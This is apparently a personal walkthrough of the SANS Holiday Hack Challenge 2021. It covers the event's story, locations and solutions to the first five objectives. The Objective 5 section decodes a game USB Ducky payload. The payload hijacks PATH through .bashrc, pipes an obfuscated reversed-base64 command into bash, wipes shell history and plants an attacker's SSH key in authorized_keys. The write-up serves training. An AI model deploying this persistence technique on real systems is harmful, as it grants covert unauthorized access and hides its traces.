









# Holiday Hack Challenge 2021

[TOC]

## About KringleCon

KringleCon relates to SANS' Holiday Hacking Challenge which happens yearly around the Christmas time. You can find more information about the event here: https://www.sans.org/mlp/holiday-hack-challenge/


## About this document

This document contains the report and all related scripts & code snippets I have used and/or created to solve the challenges. The document has been written in GitHub flavored markdown  and exported to PDF for easier delivery.
When the log files or output contains too much output I have removed that passages (".." as indicator).
I wasn't able to polish this document until 04. of January but I'll update it later when there is some time.

## About the author

Hello, my name is Ben. I'm a Cyber Security Fanatic and Generic IT Fairy. I love solving puzzles, doing CTFs and trying out new stuff. Sadly I have to do all this in my free time which is quite limited :(
You can reach me here: http://blk.pm

## Document structure

**Story**
Each Holiday Hack Challenge has a certain story you can unlock by solving the challenges.
Follow [this link](#Story) to review the full story.

**Destinations**
This year we have two competing conventions, the KringleCon (hosted by Santa) on the one side and the FrostFest (hosted by Jack Frost).
Each destination contains certain events (the main objectives and the secondary hints). Have a look for the elves and terminals - you can talk and interact with them to get tasks and/or hints.
Follow [this link](#Destinations) to see which destinations are available for you. 

**Objectives**
The objectives are the main tasks you have to achieve. Each objective has a different difficulty so there's always something for you. Just focus on the objectives which you feel comfortable with and keep the more difficult ones for later.
This year there are 13 objectives, just follow [this link](#Objectives) to get more information.

**Hints**
The hints are somewhat secondary/side tasks you may want to achieve. On the one side they are fun and on the other side each elf can give you helpful hints for the main objectives by solving his task.
This year there are 43 hints, just follow [this link](#Hints) to get more information.

**Items**
The items can be found by looking around at the Con and eventually by solving other challenges. Items can be used to help you solve further challenges/objectives.
This year there a 2 items, just follow [this link](#Items) to get more information.

**Talks**
You can have a lot of fun by solving all the challenges but on the other side you also can gain very valuable knowledge and insights by attending the talks sessions. Most sessions relate to the single objectives in one way or another so if you get stuck somewhere just have a look at the talks.
This year there are 7 tracks and 13 talks in total, just follow [this link](#Talks) to get more information.

**Achievements**
You can get an achievement by solving a main objective or a side hint challenge.
This year there are 25 achievements.

**Settings**
Well, the settings can be used to "tune" the event to match your needs. One setting might be important for you: If a destination gets very crowded and you cannot spot the elves or terminals, just hide other players for a moment.

**Further Notes**
This document is a complete walkthrough so please only have a look at the solutions if you're completely stuck or want to check if you're on the right track.
Please also be aware that there might be different solutions to solve a challenge, there might be other (and most likely better) solutions as well!
All the challenges have been created in a way that they can be solved without special hardware/software. Sometimes it might be helpful to have a Kali VM with Internet Access available. 

# Story

[Go back](#Document-structure)

<div align="center">Listen children to a story that was written in the cold</div>
<div align="center">'Bout a Kringle and his castle hosting hackers, meek and bold</div>
<div align="center">Then from somewhere came another, built his tower tall and proud</div>
<div align="center">Surely he, our Frosty villain hides intentions 'neath a shroud</div>
<div align="center">So begins Jack's reckless mission: gather trolls to win a war</div>
<div align="center">Build a con that's fresh and shiny, has this yet been done before?</div>
<div align="center">Is his Fest more feint than folly? Some have noticed subtle clues</div>
<div align="center">Running 'round and raiding repos, stealing Santa's Don'ts and Do's</div>
<div align="center">Misdirected, scheming, grasping, Frost intends to seize the day</div>
<div align="center">Funding research with a gift shop, can Frost build the better sleigh?</div>
<div align="center">Lo, we find unlikely allies: trolls within Jack's own command</div>
<div align="center">Doubting Frost and searching motive, questioning his dark demand</div>
<div align="center">Is our Jack just lost and rotten - one more outlaw stomping toes?</div>
<div align="center">Why then must we piece together cludgy, wacky radios?</div>
<div align="center">With this object from the heavens, Frost must know his cover's blown</div>
<div align="center">Hearkening from distant planet! We the heroes should have known</div>
<div align="center">Go ahead and hack your neighbor, go ahead and phish a friend</div>
<div align="center">Do it in the name of holidays, you can justify it at year's end</div>
<div align="center">There won't be any retweets praising you, come disclosure day</div>
<div align="center">But on the snowy evening after? Still Kris Kringle rides the sleigh</div>

[Go back](#Document-structure)

# Destinations

[Go back](#Document-structure)

Hint: Not all destinations are reachable when you start your KringleCon / FrostFest adventure. You might to solve challenges to unlock all possible destinations.
You can reach a destination by moving your virtual character to the given area. after you have unlocked that area and it's visible in the menu it's much faster to "teleport" by clicking on the matching entry.

## Overview

|                |Destination                          |
|----------------|-------------------------------|
|The North Pole	 |Orientation<br>The North Pole |
|KringleCon      |Entry<br>Dining Room<br>Great Room<br>Kitchen<br>Courtyard<br>Talks Lobby<br>Speaker UNpreparation Room<br>Santa's Office<br>NetWars |
|FrostFest       | Frost Tower Lobby<br>Jack's Studio<br>Jack's Office<br>Jack's Restroom<br>Frost Tower Gift Shop<br>Frost Tower Rooftop<br>Talks Lobby<br>The Third Kind |

## Detailed list

**The North Pole - Orientation**

* Elf/Terminal Jingle Ringford: **Objective 1** KringleCon Orientation
* Items WiFi Dongle

**The North Pole - The North Pole**

* Elf/Terminal Noel Boetie: Hint Logic Munchers
* Troll Grimy McTrolkins: **Objective 3** Thaw Frost Tower's Entrance
* Troll/Terminal Greasy GopherGuts: Hint Grepping for Gold
* Side Figures Santa and the pigeons, Jack Frost

**KringleCon - Entry**
* Elf/Terminal Fitzy Shortstack: Hint Yara Analysis
* Side Figures Santa, Sparkle Redburry

**KringleCon - Dining Room**
* Elf/Terminal Ribb Bonbowford: Hint The Elf Code

**KringleCon - Great Room**

* Elf/Terminal Angel Candysalt: **Objective 9** Splunk!

**KringleCon - Kitchen**
* Elf/Terminal Tinsel Upatree: Hint Strace Ltrace Retrace

**KringleCon - Courtyard**
* Elf/Terminal Tangle Coalbox: **Objective 2** Where in the World is Caramel Santiago?
* Elf/Terminal Piney Sappington: Hint Exif Metadata
* Side Figures Cyberus, Sponsors

**KringleCon - Talks Lobby**
* Elf/Terminal Jewel Loggins: Hint IPv6 Sandbox

**KringleCon - Speaker UNpreparation Room**

* Elf/Terminal Morcel Nougat: **Objective 5** Strange USB Device

**KringleCon - Santa’s Office**
* Elf/Terminal Eve Snowshoes: Hint HoHo ... No

**KringleCon - NetWars**
* Elf/Terminal Chimney Scissorsticks: Hint Holiday Hero game

**FrostFest - Frost Tower Lobby**

* Troll/Terminal Hubris Selfington: **Objective 4** Slot Machine Investiation
* Troll Grody Goiterson: Hint Broken Elevator
* Side Figures Jack Frost

**FrostFest - Jack’s Studio**

* Troll/Terminal Ingreta Tude: **Objective 12** Frost Tower Website Checkup 

**FrostFest - Jack’s Office**

* Troll/Terminal Ruby Oyster: **Objective 6** Shellcode Primer
* Device Printer: **Objective 7** Printer Exploitation

**FrostFest - Jack’s Restroom**
* Troll/Terminal Noxious O D'or: Hint IMDS Exploration

**FrostFest - Frost Tower Gift Shop**
* Side Figures Jack Frost

**FrostFest - Frost Tower Rooftop**

* Troll/Terminal Crunchy Squishter: **Objective 13** FPGA Programming
* Side Figures Rose Mold, Numby Chilblain
* Items FPGA

**FrostFest - Talks Lobby**

* Troll Pat Tronizer: **Objective 10** Now Hiring!

**FrostFest - The Third Kind**
* Side Figures Jack Frost, Santa, Buttercup, Icy Sickles, Erin Fection

[Go back](#Document-structure)

# Objectives

[Go back](#Document-structure)

* [Objective 1](#Objective-1:-KringleCon-Orientation) **KringleCon Orientation** *requested by Jingle Ringford, found in The North Pole - Orientation*
* [Objective 2](#Objective-2:-Where-in-the-World-is-Caramel-Santaigo?) **Where in the World is Caramel Santiago?** *requested by Tangle Coalbox, found in KringleCon - Courtyard*
* [Objective 3](#Objective-3:-Thaw-Frost-Tower's-Entrance) **Thaw Frost Tower's Entrance** *requested by Grimy McTrolkins, found in The North Pole - The North Pole*
* [Objective 4](#Objective-4:-Slot-Machine-Investiation) **Slot Machine Investiation** *requested by Hubris Selfington, found in FrostFest - Frost Tower Lobby*
* [Objective 5](#Objective-5:-Strange-USB-Device) **Strange USB Device** *requested by Morcel Nougat, found in KringleCon - Speaker UNpreparation Room*
* [Objective 6](#Objective-6:-Shellcode-Primer) **Shellcode Primer** *requested by Ruby Oyster, found in FrostFest - Jack’s Office*
* [Objective 7](#Objective-7:-Printer-Exploitation) **Printer Exploitation** *requested by no one, can be found by clicking in the printer in FrostFest - Jack’s Office*
* [Objective 8](#Objective-8:-Kerberoasting-on-an-Open-Fire) **Kerberoasting on an Open Fire**
* [Objective 9](#Objective-9:-Splunk!) **Splunk!** *requested by Angel Candysalt, found in KringleCon - Great Room*
* [Objective 10](#Objective-10:-Now-Hiring!) **Now Hiring!** *requested by Pat Tronizer, found in FrostFest - Talks Lobby*
* [Objective 11](#Objective-11:-Customer-Complaint-Analysis) **Customer Complaint Analysis**
* [Objective 12](#Objective-12:-Frost-Tower-Website-Checkup) **Frost Tower Website Checkup** *requested by Ingreta Tude, found in FrostFest - Jack’s Studio*
* [Objective 13](#Objective-13:-FPGA-Programming) **FPGA Programming** *requested by Crunchy Squishter, found in FrostFest - Frost Tower Rooftop*

[Go back](#Document-structure)

## Objective 1: KringleCon Orientation

[Go back](#Objectives)

**Overview**
Requested by Jingle Ringford, found in The North Pole - Orientation
<br>
Difficulty :christmas_tree: (1/5)
Task Get your bearings at KringleCon


**Resources**
*None*

**Solution**
Well, this challenge is here to get you started. You will be guided through the KringleCon "onboarding process" step-by-step.
Just follow the steps presented to you:

1. Talk to Jingle Ringford - Jingle will start you on your journey!
2. Get your badge - Pick up your badge
3. Get the wifi adapter - Pick up the wifi adapter
4. Use the terminal - Click the computer terminal
```
The answer is already given:
Click in the upper pane of this terminal
Type answer and press Enter
```
Hint: If the screen is too busy because there a lot of players online, you can "hide" them in the settings, this way it's easier to find items/people/terminals
Hint: Some terminals are "split". You may have problems doing a copy&paste there. Enter "tmux set -g mouse off" in the termin windows to enable copy&paste for that moment

[Go back](#Objectives)

## Objective 2: Where in the World is Caramel Santaigo? 

[Go back](#Objectives)

**Overview**
Requested by Tangle Coalbox, found in KringleCon - Courtyard
<br>
Difficulty :christmas_tree: (1/5)
Task Help Tangle Coalbox find a wayward elf in Santa's courtyard. Talk to Piney Sappington nearby for hints.



**Resources**

* Talk video "Using Open-Source Tools to Track Elves" by Clay Moody on Track 6
* [Hints from Piney Sappington](#Hints-for-Objective-2:-Where-in-the-World-is-Caramel-Santaigo?), found in KringleCon - Courtyard

**Solution**

Note: Each time you play the game you will get different questions and hints but missing one (and noting the answers) may help in another play.
<br>
Playing the game always includes these steps:
* Investigate the current location (three points of interest)
* Note anything that might help you identify the target elf (e.g. "Oh, I noticed they had a **Firefly themed** phone case")
* Note anything that might help you identify the next stop (e.g. "their phone was going to work on the **1500 MHz LTE** band")
* Departy by sleigh to visit the next stop and use the InterRink terminal to filter possible target elves using your findings
You will most likel visit three stops, the investigations should give you enough information to filter the InterRink so only one target elf is left.



Sample play log:

```
First stop: SANTA'S CASTLE
I think they left to check out the Défilé de Noël.
They called me and mentioned they were connected via Rogers Wireless.
They were dressed for -0.9°C and clear conditions. The elf got really heated about using tabs for indents.

Next stop must be MONTRÉAL, CANADA (contains the Défilé de Noël festival)
They were excited about checking out the Vánoční trhy.
They said something about NATO and 33U VR 58560 48464. /shrug
They were dressed for 5.0°C and partly cloudy conditions. Oh, I noticed they had a Firefly themed phone case.

Next stop must be PRAGUE, CZECH REPUBLIC (contains the Vánoční trhy market)
They said, if asked, they would describe their next location as "only milder vanilla."
They were excited that their phone was going to work on the 1500 MHz LTE band
They were dressed for 14.0°C and partly cloudy conditions. The elf mentioned something about Stack Overflow and Python.

Possible elves (checking the hints in the elf system):
Fitzy Shortstack

Next stop must be TOKYO, JAPAN (has the 1500 MHz LTE Japanese Band)

You just caught the elf!
You've won!
```

[Go back](#Objectives)

## Objective 3: Thaw Frost Tower's Entrance

[Go back](#Objectives)

**Overview**
Requested by Grimy McTrolkins, found in The North Pole - The North Pole
<br>
Difficulty :christmas_tree: :christmas_tree: (2/5)
Task: Turn up the heat to defrost the entrance to Frost Tower. Click on  the Items tab in your badge to find a link to the Wifi Dongle's CLI interface. Talk to Greasy Gopherguts outside the tower for tips.


**Resources**
* [Hints from Greasy GopherGuts](#Hints-for-Objective-2:-Where-in-the-World-is-Caramel-Santaigo?), found in The North Pole - The North Pole

**Solution**
Stand next to Frost Tower (as WLAN has only a certain range)
Use the WiFi Dongle (Items section)

Scan for open WLANs

```bash
elf@0fef79d62d9a:~$ iwlist wlan0 scan
wlan0     Scan completed :
          Cell 01 - Address: 02:4A:46:68:69:21
                    Frequency:5.2 GHz (Channel 40)
                    Quality=48/70  Signal level=-62 dBm  
                    Encryption key:off
                    Bit Rates:400 Mb/s
                    ESSID:"FROST-Nidus-Setup"
```

Connect to that WLAN

```bash
elf@0fef79d62d9a:~$ iwconfig wlan0 essid FROST-Nidus-Setup
** New network connection to Nidus Thermostat detected! Visit http://nidus-setup:8080/ to complete setup
(The setup is compatible with the 'curl' utility)
```

Trying to access the Thermostat via curl

```bash
elf@0fef79d62d9a:~$ curl http://nidus-setup:8080
elf@0fef79d62d9a:~$ curl http://nidus-setup:8080/apidoc
```

The API Doc show how to set the temperature via POST and sending a JSON payload

```bash
elf@0fef79d62d9a:~$ curl -XPOST -H 'Content-Type: application/json'   --data-binary '{"temperature": 10}'   http://nidus-setup:8080/api/cooler
{
  "temperature": 10.19,
  "humidity": 14.17,
  "wind": 21.49,
  "windchill": 7.48,
  "WARNING": "ICE MELT DETECTED!"
}
```

[Go back](#Objectives)

## Objective 4: Slot Machine Investiation

[Go back](#Objectives)

**Overview**
Requested by Hubris Selfington, found in FrostFest - Frost Tower Lobby
<br>
Difficulty :christmas_tree: :christmas_tree: (2/5)
Task: Test the security of Jack Frost's [slot machines](https://slots.jackfrosttower.com/). What does the Jack Frost Tower casino security team threaten to do when your coin total exceeds 1000? Submit the string in the server data.response element. Talk to Noel Boetie outside Santa's Castle for help.


**Resources**
* [Hints from Noel Boetie](#Hints-for-Objective-4:-Slot-Machine-Investiation), found in The North Pole - The North Pole

**Solution**

I just played the game a few times and intercepted the server response using Burp Proxy, after I while I got the jackpot ;) Guess this was the "lucky punch", I will investigate the cookies further and update this document as I guess that was just luck.

I'm going to have some bouncer trolls bounce you right out of this casino! 

[Go back](#Objectives)

## Objective 5: Strange USB Device

[Go back](#Objectives)

**Overview**
Requested by Morcel Nougat, found in KringleCon - Speaker UNpreparation Room
<br>
Difficulty :christmas_tree: :christmas_tree: (2/5)
Task: Assist the elves in reverse engineering the strange USB device. Visit Santa's Talks Floor and hit up Jewel Loggins for advice.


**Resources**
* [Hints from Jewel Loggins](#Hints-for-Objective-5:-Strange-USB-Device), found in KringleCon - Talks Lobby

**Solution**

Mallard (USB Ducky en/decoder) is already present, so we can just use it:

```bash
elf@91b162ddd151:/mnt/USBDEVICE$ python3 ~/mallard.py -f inject.bin > /tmp/plain.txt
```

Let's look at the plain text content of the script:

```bash
elf@91b162ddd151:/mnt/USBDEVICE$ cat /tmp/plain.txt | grep STRING
STRING terminal
STRING /bin/bash
STRING mkdir -p ~/.config/sudo
..
STRING echo "export PATH=~/.config/sudo:$PATH" >> ~/.bashrc
STRING echo ==gCzlXZr9FZlpXay9Ga0VXYvg2cz5yL+BiP+AyJt92YuIXZ39Gd0N3byZ2ajFmau4WdmxGbvJHdAB3bvd2Ytl3ajlGILFESV1mWVN2SChVYTp1VhNlRyQ1UkdFZopkbS1EbHpFSwdlVRJlRVNFdwM2SGVEZnRTaihmVXJ2ZRhVWvJFSJBTOtJ2ZV12YuVlMkd2dTVGb0dUSJ5UMVdGNXl1ZrhkYzZ0ValnQDRmd1cUS6x2RJpHbHFWVClHZOpVVTpnWwQFdSdEVIJlRS9GZyoVcKJTVzwWMkBDcWFGdW1GZvJFSTJHZIdlWKhkU14UbVBSYzJXLoN3cnAyboNWZ | rev | base64 -d | bash
STRING history -c && rm .bash_history && exit
```

The second last line contains some base64 encoded string, let's decode it:

```bash
elf@91b162ddd151:/mnt/USBDEVICE$ echo ==gCzlXZr9FZlpXay9Ga0VXYvg2cz5yL+BiP+AyJt92YuIXZ39Gd0N3byZ2ajFmau4WdmxGbvJHdAB3bvd2Ytl3ajlGILFESV1mWVN2SChVYTp1VhNlRyQ1UkdFZopkbS1EbHpFSwdlVRJlRVNFdwM2SGVEZnRTaihmVXJ2ZRhVWvJFSJBTOtJ2ZV12YuVlMkd2dTVGb0dUSJ5UMVdGNXl1ZrhkYzZ0ValnQDRmd1cUS6x2RJpHbHFWVClHZOpVVTpnWwQFdSdEVIJlRS9GZyoVcKJTVzwWMkBDcWFGdW1GZvJFSTJHZIdlWKhkU14UbVBSYzJXLoN3cnAyboNWZ | rev | base64 -d
echo 'ssh-rsa UmN5RHJZWHdrSHRodmVtaVp0d1l3U2JqZ2doRFRHTGRtT0ZzSUZNdyBUaGlzIGlzIG5vdCByZWFsbHkgYW4gU1NIIGtleSwgd2UncmUgbm90IHRoYXQgbWVhbi4gdEFKc0tSUFRQVWpHZGlMRnJhdWdST2FSaWZSaXBKcUZmUHAK ickymcgoop@trollfun.jackfrosttower.com' >> ~/.ssh/authorized_keys
```

So our bad guy was ickymcgoop. 

[Go back](#Objectives)

